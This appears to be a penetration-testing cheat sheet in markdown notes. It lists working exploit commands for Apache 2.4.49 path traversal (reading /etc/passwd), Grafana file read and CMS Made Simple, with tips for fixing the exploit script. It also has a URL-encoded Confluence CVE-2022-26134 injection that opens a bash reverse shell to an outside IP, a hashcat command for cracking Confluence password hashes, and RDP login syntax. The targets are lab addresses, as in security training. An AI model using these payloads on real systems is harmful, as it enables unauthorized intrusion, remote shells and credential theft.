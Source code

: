## APACHE 2.4.49:  
Run Searchploit
```
sudo nmap -sV -p 443 --script http-vuln-cve-2021-41773.nse 192.168.148.13  

curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
## GRAFANA RCE:
```
curl --path-as-is http://ip:3000/public/plugins/mysql/../../../../../../../../Users/install.txt
```
## CMS MADE SIMPLE 2.2.5 (AUTH)
https://www.exploit-db.com/exploits/44976
Note : Required Modifications Check 13.2.2, 13.2.3
## If we get SSL ERROR  
response = requests.post(url, data=data, allow_redirects=False, verify=False) ...
response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False) ...
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)

## If we get Index error when running exploit? Add print line below def parse_csrf_token

def parse_csrf_token(location):  
print "[+] String that is being split: " + location
```
Observe http://192.168.177.52/cmsms/admin?_sk_=292aa89bb8ff807f3b4 _sk_ parameter here in exploit error output.
```
Modify as per need
## Atlassian Confluence
```
CVE-2022-26134?

curlhttp://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```
##### Configuration File  
/var/atlassian/application-data/confluence/confluence.cfg.xml

Note: The Hashcat mode number for Atlassian (PBKDF2-HMAC-SHA1) hashes2 is 12001 hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt
## XFREERDP
```
xfreerdp /u:stephanie /d:corp.com /v:192.168.207.72 /size:1980x900 
/size:1980x900
```
## GIT
```
Move to git directory 
git status  
git log  
git show
```
## ENABLING RDP(FIREWALL RULE)
```powershell
```